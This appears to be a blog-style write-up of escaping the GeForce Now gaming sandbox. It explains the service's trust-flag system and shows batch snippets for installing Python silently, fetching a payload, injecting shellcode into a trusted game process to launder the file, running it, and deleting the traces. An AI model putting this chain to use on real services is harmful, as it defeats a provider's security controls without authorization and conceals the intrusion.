

GeForce Now is awesome for gaming, but under the hood, it's a super locked-down box. It's way more than a basic anti-cheat. They've built one of the toughest sandboxes out there, all to make sure you can only do one thing: play the game. Nothing else. This is the story of how I found a crack in their setup and got my own code running.

### So, What Are We Up Against?

Before I get to the exploit, you have to understand what GFN is packing. Their security isn't just one program; it's a few different layers that watch everything you do.

First up, they have a **kernel driver**. This thing runs deep in the OS with the highest permissions. It hooks into basic Windows functions, so when you try to run a program or load a DLL, GFN's driver jumps in and checks it against a whitelist of approved files. If it's not on the list, your stream just dies. No warning, it's just over. This makes trying to find a weak spot a huge pain. One wrong move and you're starting from scratch.

Then there's the **Flag System**. This is their smartest trick. It gives every file and process a color-coded trust level:

-   **Green Flag:** The good stuff. The game itself, core Windows files, anything signed by NVIDIA. These are fully trusted.
-   **Yellow Flag:** Sketchy but allowed. Things like `cmd.exe`. They can run, but the system treats them like they're infected.
-   **Red Flag:** The no-fly list. Any file that's not approved gets a Red Flag.

And here's the clever part: the flags get passed down. If a trusted **Green Flag** process creates a file, that file also becomes Green. But if a **Yellow Flag** process (like our command prompt) downloads something, that new file is automatically born with a **Red Flag**. It's useless the second it's created. This basically stops most common hacking methods right away. The system is designed to make your own tools useless before you can even run them.

The goal was clear: I had to find a way to make a file that didn't get this Red Flag taint.

### Finding a Crack in the Wall

My first break was a janky exploit using the Edge browser and MS Teams that let me pop a `cmd.exe` shell. But this wasn't a real win. Thanks to their security, that `cmd` process immediately got a Yellow Flag. So, I had a shell, but I was still stuck.

I needed a solid way to kick off the real exploit. The first step was getting some tools onto the machine with my yellow-flagged shell. The problem was that `winget`, the package manager, was also being watched. Installing most things would get my session killed. After messing around, I found that GFN wasn't as strict about older versions of Python.

```batch
:: 1. Silently install the two Python versions the whitelist was okay with.
winget install Python.Python.3.1 --silent --force
winget install Python.Python.2 --silent --force

:: 2. Use Py2 to download my payload and the injector script.
:: `input.exe` and `xd.py` are now on the disk, but they're RED FLAGGED.
"C:/Python27/python.exe" -c "..." > input.exe
"C:/Python27/python.exe" -c "..." > xd.py
```

This got my payload (`input.exe`) and an injector script (`xd.py`) on the machine. But since a Yellow Flag process downloaded them, they were both Red Flagged and couldn't be run.

### Turning Their Logic Against Them

My Red Flagged files were dead on arrival. The system was working. But then it hit me: the rule wasn't "no custom executables." The rule was "a new file gets its parent's flag."

So I just needed to pick a better parent.

The plan was simple: find a running Green Flag process and force *it* to create my file for me. The game itself was the perfect target. First, my batch script had to find its process ID (PID).

```batch
:: A list of common game processes that are always Green Flagged.
set "process_names=csgo.exe Game_x64r.exe gamelaunchhelper.exe"

:: Loop through tasklist, find the first running game, and grab its PID.
for %%p in (%process_names%) do (
    for /f "tokens=2" %%a in ('tasklist ^| find "%%p"') do (
        set "pid=%%a"
        goto :found
    )
)
:found
```

With the game's PID, it was time. My batch script called the Python 3 injector, `xd.py`, and passed it the target PID.

```batch
:: Run the injector script with the game's PID as the argument.
"C:/Python31/python.exe" xd.py %pid%```

This Python script does the real work. It's a classic process injection. It attaches to the Green Flagged game process, carves out a bit of its memory, and writes a tiny piece of code (shellcode) into that space.

The shellcode was super simple. Its only job was to call the Windows `CopyFileA` function, telling it to copy my Red Flagged `input.exe` to a new file named `unflagged.exe`.

Finally, the script calls `CreateRemoteThread`, which tells the game process to start a new thread and run my shellcode.

From the outside, GFN's kernel driver didn't see anything wrong. A trusted, Green Flagged process was creating a file. Following its own rules, it gave the new file, `unflagged.exe`, a Green Flag. I had basically "cleaned" my executable.

The final step was easy.

```batch
:: Now that unflagged.exe is Green Flagged, we can run it.
start "unflagged" unflagged.exe

:: Clean up all the scripts, installers, and payloads.
del *.bat
del *.py
rmdir /s /q "C:/Python31/"
rmdir /s /q "C:/Python27/"
```

It ran perfectly. And just like that, I could run my own code inside one of the most locked-down gaming services out there. In the end, I didn't break their rules; I just used their own logic against them.

# Running on Geforce Now

